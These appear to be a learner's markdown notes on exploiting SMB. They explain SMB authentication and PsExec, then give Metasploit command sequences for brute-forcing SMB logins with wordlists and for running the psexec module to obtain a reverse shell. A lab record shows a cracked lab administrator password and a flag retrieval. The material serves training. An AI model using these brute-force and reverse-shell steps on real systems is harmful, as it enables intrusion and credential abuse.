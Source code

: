 #### SMB
	- Server Message Block, file sharing protocol for LAN
	- Port 445/tcp
	- SAMBA is the linux version of SMB

#### SMB Authentication
	- User Authentication
		Providing username and password
	- Share Authentication
		 Provide a password

Steps of Authentication: 
1. Cleint authentication request
2. Server encrypts String with user's hash
3. Client sends encrypted string
4. The server grants access 

#### PsExec
	- Allows for remote execution
	- Authentication is performed by SMB
	- Similar to RDP, but in GUI.

#### SMB Exploitation with PsExec
	- By brute forcing SMB login
	- Attack the admin account

#### Tools
msfconsole
psexec


#### Commands

Brute force smb login
```
msfconsole
search smb_login
use auxiliary/scanner/smb/smb_login
set RHOSTS target_ip
set USER_FILE /usr/share/metasploitframework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
```

Use psexec.py to launch remote commands
```
psexec.py username@target_ip  cmd.exe
```

psecec with msfocnsole, upload payload with reverse shell
```
msfconsole
search psexec
use exploit/windows/smb/psexec
show options
set RHOSTS target_ip
set SMBUSER username
set SMBPASS password
set LHOST localhost_ip
exploit
```


## Lab

```
nmap -sS -sV --script smb-protocols.nse 10.4.23.247 

| smb-protocols: 
|   dialects: 
|     2.02
|     2.10
|     3.00
|     3.02
|_    3.11

```

```
msfconsole 
use auxiliary/scanner/smb_login
set PASS_FILE
set USER_FILE
set RHOSTS
exploit

[+] 10.4.23.247:445       - 10.4.23.247:445 - Success: '.\administrator:qwertyuiop' Administrator

```


```
search smb type:exploit
use exploit/windows/smb/reverse_tcp
set smbuser Administrator
set smbpass qwertyuiop
set rhosts 10.4.23.46
exploit

cd ..
cat flag.txt
```

A Kali GUI machine and a target machine running a vulnerable SMB service are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the SMB service using the tools available on the Kali machine and then exploit the vulnerability using the Metasploit framework. You need to find valid credentials to access the SMB service and abuse the service with available SMB Metasploit exploitation modules.

**Objective:** Exploit the SMB service to get a meterpreter on the target and retrieve the flag!


- Dictionaries to use:
- /usr/share/metasploit-framework/data/wordlists/common_users.txt
- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
